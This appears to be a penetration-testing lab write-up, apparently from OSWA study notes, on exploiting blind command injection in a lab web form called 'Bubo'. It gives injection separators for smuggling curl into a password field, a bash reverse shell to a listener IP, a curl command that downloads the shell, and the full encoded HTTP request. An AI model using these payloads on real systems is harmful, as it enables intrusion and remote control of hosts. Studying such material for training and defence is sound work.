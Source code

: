 ##### Command Injection
###### Bubo
#commandinjectionlinux
we then begin testing to see if `Command injection` is a vector, however utilizing a basic payload didnt work.
```bash
curl http://192.168.45.222:8000/test.txt
```
submitted in the password field
![[Pasted image 20241111195645.png]]
`200` error but nothing happened in my `python3` listener
![[Pasted image 20241111195718.png]]
going down the list below of [[11.2 - 11.2.4 Dealing with Common Protections]] weend up getting the `$` one to work.
`$(curl http://192.168.45.222:8000/test.txt)`
```bash
||curl http://192.168.45.222:8000/test.txt
;curl http://192.168.45.222:8000/test.txt
|curl http://192.168.45.222:8000/test.txt
&&curl http://192.168.45.222:8000/test.txt
`curl http://192.168.45.222:8000/test.txt`
$(curl http://192.168.45.222:8000/test.txt)
```
So the `Common Protections` worked
![[Pasted image 20241111195849.png]]
now since we know we are able to get `Blind Command Injection` lets try to get a reverse shell.


revshell creation:
```bash
┌──(root💀gobots)-[11Nov2024 22:17:11]-[/home/kali/SUT/OSWA]
└─# cat revshell        
bash -i >& /dev/tcp/192.168.45.222/4444 0>&1

```
utilizing the vulnerable parameter to upload `revshell` - make sure to `CTRL+U` to encode 
```bash
$(curl -o /tmp/revshell http://192.168.45.222:8000/revshell)
```
full payload with URL encoding:
```http
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 132
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=%24%28curl+-o+%2Ftmp%2Frevshell+http%3A%2F%2F192.168.45.222%3A8000%2Frevshell%29
```
![[Pasted image 20241111200257.png]]
showing that the `revshell` was succesfully pulled over 
![[Pasted image 20241111201330.png]]